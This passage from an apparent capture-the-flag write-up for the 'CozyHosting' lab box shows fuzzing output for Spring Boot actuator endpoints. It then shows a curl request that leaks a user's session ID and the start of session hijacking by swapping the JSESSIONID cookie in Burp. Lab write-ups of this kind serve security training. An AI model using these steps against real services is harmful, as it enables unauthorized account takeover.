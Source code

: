 ```console
    * FUZZ: actuator/env

[Status: 200, Size: 48, Words: 1, Lines: 1, Duration: 453ms]
| URL | http://cozyhosting.htb/actuator/sessions
    * FUZZ: actuator/sessions

[Status: 200, Size: 15, Words: 1, Lines: 1, Duration: 482ms]
| URL | http://cozyhosting.htb/actuator/health
    * FUZZ: actuator/health

[Status: 200, Size: 9938, Words: 108, Lines: 1, Duration: 468ms]
| URL | http://cozyhosting.htb/actuator/mappings
    * FUZZ: actuator/mappings

[Status: 200, Size: 127224, Words: 542, Lines: 1, Duration: 153ms]
| URL | http://cozyhosting.htb/actuator/beans
    * FUZZ: actuator/beans

:: Progress: [2565/2565] :: Job [1/1] :: 123 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
```

Here's some interesting session info:

```text
$ curl http://cozyhosting.htb/actuator/sessions
{"467374C7202E01F43878D270BD2FC230":"kanderson"}
```

Maybe that's a session cookie?

## Exploitation

Using the session info above, I fire up Burp, turn on its proxy, and visit the `/admin` page. I replace the `JSESSIONID` value with the string I found above:

![](_/htb-cozyhosting-20231002-1.png)
